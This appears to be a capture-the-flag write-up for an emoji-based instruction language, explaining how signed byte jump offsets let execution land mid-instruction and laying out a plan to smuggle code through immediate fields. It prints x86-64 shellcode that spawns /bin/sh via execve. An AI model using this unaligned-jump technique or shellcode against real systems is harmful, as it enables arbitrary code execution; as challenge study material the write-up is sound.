 

## Vulnerabilities

There is a vulnerability in the way jump offsets are parsed for the three jump
emojinstructions, RUNNER, THUMBS_UP, and THUMBS_DOWN. Note that:

* 1) all three emojinstructions compile into jumps with signed *byte* offsets;
* 2) all three emojinstructions take a jump offset measured in number of lines;
    and
* 3) all emojinstructions are 5 bytes long.

Combined this implies that the jump offset passed to an emojinstruction should
be within the inclusive range `-24 <= n <= 26`, since otherwise the offset
computed by the formular `k = ((n - instrno - 1) * 5)` can result in a number
that is not a multiple of 5 when it is cast from `int` to `char`.

## Exploit plan

The vulnerability can be used to jump to the middle of an instruction and
execute instructions outside of the target subset of instructions. In fact,
because we can place our own 32 bit immediate values in eg. the DASH and
POINT_UP instructions, we can obtain arbitrary code execution so long as we can
pack our exploit into the immediate fields. We can even construct "chains" of
unaligned instructions using 2-byte jump instructions.

I plan to use this vulnerability to construct a sequence of emojis which jumps
to the middle of an emojinstruction and sets up an `execve` of `/bin/sh`.

I will attempt to build the below shellcode:

```asm
 0:	b8 2f 2f 73 68   mov    eax, 0x68732f2f
 5:	bb 2f 62 69 6e   mov    ebx, 0x6e69622f
 a:	48 c1 e0 20      shl    rax, 32
 e:	48 01 d8         add    rax, rbx
11:	31 f6            xor    esi, esi
13:	56               push   rsi
14:	50               push   rax
15:	54               push   rsp
16:	5f               pop    rdi
17:	6a 3b            push   59
19:	58               pop    rax
1a:	99               cdq
1b:	0f 05            syscall
```

Note that the first two instructions each require 5 bytes -- this is ok, because
we happen to have `mov eax, imm` and `mov ebx, imm` in the target subset of
instructions. Everything else should be able to fit in emojinstruction immediate
value fields.

Also, please note that we are *not* restricted to writing shellcode without NULL
bytes. This for example means that we *are* allowed to easily null-terminate the
`/bin/sh` string with a null byte in the `mov eax` instruction, but I simply
re-use this piece of code to save myself some time rewriting it.
